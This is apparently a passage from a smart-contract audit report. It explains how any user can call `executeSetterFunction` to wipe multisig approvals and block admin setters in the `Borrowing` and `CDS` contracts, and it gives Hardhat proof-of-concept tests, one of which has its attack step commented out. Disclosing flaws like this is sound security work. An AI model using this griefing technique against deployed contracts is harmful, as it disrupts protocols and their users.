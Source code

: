 1. Multiple admins call the `approveSetterFunction` method to approve a specific function.
2. Once the required number of approvals is met, a malicious actor invokes the `executeSetterFunction` method for the same function.
3. This invocation resets all approvals for the function by setting their values to `false` in the `approvedToUpdate` mapping.
4. When a legitimate admin attempts to execute the function in a dependent contract (e.g., `Borrowing` or `CDS`), the call reverts due to the lack of approvals.

### Impact

The protocol's admins cannot execute setter functions required for critical operations, leading to a Denial of Service (DoS). This disrupts the functionality of the `Borrowing` and `CDS` contracts. The attacker does not gain funds but can repeatedly block essential operations (griefing).

### PoC

Add the following test to `Blockchian\test\BorrowingTest.ts` file.

```js
    describe("DOS(denial of service) on all executeSetterFunction used", function () {

        // -- BorrowingContract ---

        it("DOS(denial of service) revert setLTV BorrowingContract", async function () {
            const { BorrowingContractA, multiSignA } = await loadFixture(deployer);
            await multiSignA.connect(owner).approveSetterFunction([0]);
            await multiSignA.connect(owner1).approveSetterFunction([0]);

            // A malicious user called before admin
            // in `executeSetterFunction` function set false all approved admins
            await multiSignA.connect(user1).executeSetterFunction(0);


            const tx = BorrowingContractA.connect(owner).setLTV(80);
            await expect(tx).to.be.reverted;
        })

        it("DOS(denial of service) revert setAPR BorrowingContract", async function () {
            const { BorrowingContractA, multiSignA } = await loadFixture(deployer);
            await multiSignA.connect(owner).approveSetterFunction([1]);
            await multiSignA.connect(owner1).approveSetterFunction([1]);

            // A malicious user called before admin
            // in `executeSetterFunction` function set false all approved admins
            await multiSignA.connect(user1).executeSetterFunction(1);


            const tx = BorrowingContractA.connect(owner).setAPR(50, BigInt("1000000001547125957863212448"));
            await expect(tx).to.be.reverted;
        })

        it("DOS(denial of service) revert setAdmin BorrowingContract", async function () {
            const { BorrowingContractA, multiSignA } = await loadFixture(deployer);
            await multiSignA.connect(owner).approveSetterFunction([3]);
            await multiSignA.connect(owner1).approveSetterFunction([3]);

            // A malicious user called before admin
            // in `executeSetterFunction` function set false all approved admins
            // await multiSignA.connect(user1).executeSetterFunction(3);

            const tx = BorrowingContractA.connect(owner).setAdmin(owner1.getAddress());
            // await expect(tx).to.be.reverted;
        })

```